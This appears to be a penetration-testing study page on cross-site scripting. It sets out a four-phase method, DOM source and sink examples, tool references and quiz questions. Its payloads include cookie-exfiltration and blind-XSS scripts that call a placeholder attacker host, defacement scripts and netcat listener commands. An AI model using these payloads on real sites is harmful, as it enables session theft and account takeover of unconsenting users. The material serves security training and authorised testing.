

# Cross-Site Scripting (XSS)
import { Callout } from 'nextra/components'

## Flowchart



## Methodology

### Phase 1: Map Inputs and Reflection Points

<Callout type="default" emoji="?">
  **Ask youself**

  - Which inputs reach the rendered page? form fields, URL params, headers (`User-Agent`, `Cookie`, `Referer`)?
  - Where does each input land back in the output: HTML body, an attribute, inside `<script>`, inside a URL, or a CSS context?
  - Is the reflection reflected, stored, or DOM based?
</Callout>

```html
# acts like canary tokensto find input in resposne / page
xss_probe_7531
"><b>xss_probe_7531</b>
'"></script><b>xss_probe_7531</b>
```

- [ ] Enumerate every input that influences the response (fields, params, headers).
- [ ] Inject a unique benign marker into each input and find it in the response source.
- [ ] Classify the injection context (HTML, attribute, JS string, URL, CSS) this dictates the payload.
- [ ] Determine the XSS type: reflected, stored or DOM (client-side only).
- [ ] If output is never visible to you, treat it as blind XSS and move to Phase 4.

### Phase 2: Confirm Execution

<Callout type="default" emoji="?">
  **Ask youself**

  - Does the marker render as live HTML, or is it encoded (`&lt;`) i.e. is there output encoding in the way?
  - Does the context require a breakout first (close a tag/quote)?
  - Are `<script>` tags or `alert()` blocked here, so I need an event-handler or alternate sink?
  - Does `window.origin` confirm the code runs on the main app and not a sandboxed cross-domain iframe?
</Callout>

```html
#check if it is begin executed in the main app or in a sandboxed iframe
<script>alert(window.origin)</script>

<svg onload=print()>
" onmouseover=alert(window.origin) x="
```

- [ ] Confirm a popup.
- [ ] If encoded, test attribute/JS-context breakouts before assuming it is patched.
- [ ] If `<script>` is stripped, switch to `/<svg>/<body>` event handlers.
- [ ] Read `window.origin` to verify the vulnerable form is the main app, not an iframe.
- [ ] If stored, refresh the page to confirm persistence (fires for every visitor).

### Phase 3: Weaponize (Session Hijacking / Defacement)

<Callout type="default" emoji="?">
  **Ask youself**

  - Is the session cookie flagged `HttpOnly`? If so, `document.cookie` theft fails pivot to in-browser actions (CSRF-style requests, account takeover).
  - Who triggers the payload? only me or every visitor?
  - What is the highest-value action: cookie theft, performing a privileged request as the victim?
</Callout>

```html
#exfil 
<script>new Image().src='http://<LHOST>/c='+document.cookie</script>

# defacement
<script>document.body.style.background="#141d2b"</script>
<script>document.title='Owned'</script>
<script>document.getElementsByTagName('body')[0].innerHTML='<center><h1>Owned</h1></center>'</script>
```

- [ ] Stand up a listener (`php -S 0.0.0.0:80` or `nc -lvnp 80`) before sending payloads.
- [ ] Steal and replay the cookie; if `HttpOnly` blocks it, perform an authenticated action in-browser instead.
- [ ] For reflected XSS, build the crafted URL that carries the payload and validate it end-to-end.
- [ ] Capture evidence (request, executing `window.origin`, received cookie) for reporting.
- [ ] Carry stolen sessions/creds forward to authenticated areas and other services.

### Phase 4: Blind XSS

<Callout type="default" emoji="?">
  **Ask youself**

  - Which field fired? Name the remote script after the field so the callback identifies it.
  - Which payload shape works? 
  - Which fields can I skip? Server-validated formats (email) and hashed fields (password) are unlikely sinks.
  - Did the request arrive on my listener, the only proof of execution I get here?
</Callout>

```html
# Add fiel names
<script src=http://<LHOST>/fullname></script>
'><script src=http://<LHOST>/username></script>
"><script src=http://<LHOST>/address></script>
```

- [ ] Start a web server on `<LHOST>` to receive callbacks.
- [ ] Inject a remote-script payload whose path encodes the field name, one field at a time.
- [ ] Rotate breakout variants (`'>`, `">`, raw) since the context is unknown.
- [ ] Skip format-validated (email) and hashed (password) or phone Numeric fields to cut the search space.
- [ ] On a callback, record both the working payload and the vulnerable field name.

### Methodology Recovery

<Callout type="info">
  If nothing executes after exhausting the above: re-check the **context** (you may be encoding for HTML when the sink is a JS string or attribute), try **case/whitespace/encoding** evasions against a filter, confirm there is no **CSP** blocking inline/remote scripts (`Content-Security-Policy` response header), and review client-side JS for a **DOM sink** you can reach directly. Then re-rank inputs and retry the simplest breakout first.
</Callout>


### Source and Sink (DOM XSS)

- **Source** are the JavaScript object that takes input (e.g. `document.URL`, a `task=` URL parameter, an input field).
- **Sink** are the functions that writes that input into the DOM. If it writes raw, unsanitized input, it is exploitable.

Dangerous sinks: `document.write()`, `element.innerHTML`, `element.outerHTML`; jQuery `add()`, `after()`, `append()`, `html()`. Example vulnerable flow: input from the URL written straight into the page:

```javascript
var pos = document.URL.indexOf("task=");
var task = document.URL.substring(pos + 5, document.URL.length);
document.getElementById("todo").innerHTML = "<b>Next Task:</b> " + decodeURIComponent(task);
```

<Callout type="info">
  `innerHTML` will not execute `<script>` tags it inserts (a browser security feature), so DOM XSS via `innerHTML` uses self-triggering tags like `` or `<svg onload=...>` instead.
</Callout>

## Reference

### Discovery Approaches

- **Automated** scanners (Burp Pro, ZAP, Nessus) and open-source tools ([XSStrike](https://github.com/s0md3v/XSStrike), [BruteXSS](https://github.com/rajeshmajumdar/BruteXSS), [XSSer](https://github.com/epsylon/xsser)) inject payloads and diff the response. Fast but false-positive-prone always verify a reported hit manually.
- **Manual payload testing** work lists like [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md) and [payload-box/xss-payload-list](https://github.com/payload-box/xss-payload-list). Most payloads target a specific context, so failures are expected; pick payloads that match your injection context.
- **Code review** the most reliable method. Tracing input from Source to Sink (front and back end) lets you craft a high-confidence payload and find bugs scanners miss.

<Callout type="info">
  XSS is not limited to visible form fields. Any input rendered on a page is a candidate, including HTTP headers like `Cookie`, `User-Agent`, and `Referer` when their values are echoed back.
</Callout>


Map to MITRE ATT&CK **T1059.007 (JavaScript)** and the OWASP A03:2021 Injection category for reporting.

<Quiz
  question="A stored XSS fires, but document.cookie returns an empty string even though you are logged in. What is the most likely cause and best next move?"
  options={[
    "The payload failed; switch to a <script> tag",
    "The session cookie is HttpOnly, so perform an authenticated action in-browser instead of stealing the cookie",
    "The browser cleared cookies; just refresh and retry",
    "XSS cannot read cookies at all; abandon this path"
  ]}
  answer={1}
  explanation="An empty document.cookie despite a valid session points to the HttpOnly flag, which hides cookies from JavaScript. Cookie theft is dead, but the payload still runs in the victim's session pivot to making privileged requests (change email, create admin, CSRF-style actions) directly from the injected JS. Switching to <script> does nothing since code already executed, and XSS can read non-HttpOnly cookies fine."
/>

<Quiz
  question="You injected your marker and it comes back as &lt;b&gt;test&lt;/b&gt; in the response. What does this tell you?"
  options={[
    "The app is definitely not vulnerable to any XSS",
    "Output encoding is applied here; this context is likely safe, but check other inputs, contexts, and DOM sinks",
    "You must immediately try 3000 payloads from a wordlist",
    "The server is down"
  ]}
  answer={1}
  explanation="HTML-entity encoding on output is the correct defense for the HTML body context, so a naive payload won't fire here. That does not mean the whole app is safe other inputs, other contexts (attribute, JS string, URL), or a client-side DOM sink may still be exploitable. Blindly firing thousands of payloads at an encoded sink wastes time; reason about context first."
/>

<div className="pensieve-hashtags">
  #Penetration-Testing #Red-Team #XSS #WebAttacks #JavaScript #DOM #StoredXSS #ReflectedXSS #SessionHijack #CSRF #Filters #OWASP #HTB #Certification #BugBounty
</div>
